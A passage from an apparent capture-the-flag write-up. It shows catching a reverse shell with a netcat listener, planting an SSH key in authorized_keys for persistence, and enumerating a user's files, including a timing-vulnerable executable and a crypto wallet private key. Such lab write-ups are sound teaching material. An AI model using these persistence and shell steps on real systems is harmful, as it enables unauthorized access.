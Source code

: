 On our attacking machine, we start a listener with netcat.

```bash
nc -lvnp 443
```

After waiting approximately one minute, we receive a reverse shell with the privileges of the user `shelldredd`.

![shell con shelldredd](../../assets/images/zerotrace/shell-shelldredd.png)

## Lateral movement from shelldredd to ll104567

Before continuing, we install our public key in the `.ssh` directory of the user `shelldredd` to facilitate access via SSH and maintain persistence.

We use our public key.

```bash
mkdir .ssh && echo "ssh-ed25519 AAAAC.....CxOr3 kali@kali" > ./.ssh/authorized_keys && chmod 600 ./.ssh/authorized_keys
```

Now we can connect via SSH from our host to obtain a full shell and maintain persistence.

```bash
ssh shelldredd@192.168.1.187
```

We found several interesting things on the server, we have access to the home of the user `ll104567` and we observe three interesting files:

   - `guessme` executable vulnerable to a timing attack in the condition `[[ $FTP_PASS == $CLEAN_PASS ]]`, it seems to require more privileges for execution.
   - `one` a list of characters related to the **One-Punch Man** universe, completely unknown to me. With a message at the beginning that says: `Why don't we join two universes and see who's the strongest?`.
   - `user.txt` the first flag of the challenge, but without read permissions.

We also found a folder that seems to be a crypto wallet `/opt/cryptovault/ll104567` with three files:

   - `notes.txt` where there seems to be a message directed to our friend `ll104567`.
   - `secret` where there is a `json` file that appears to be the private key of a cryptowallet.
   - `why.png` image of Donald Trump, it's everywhere.
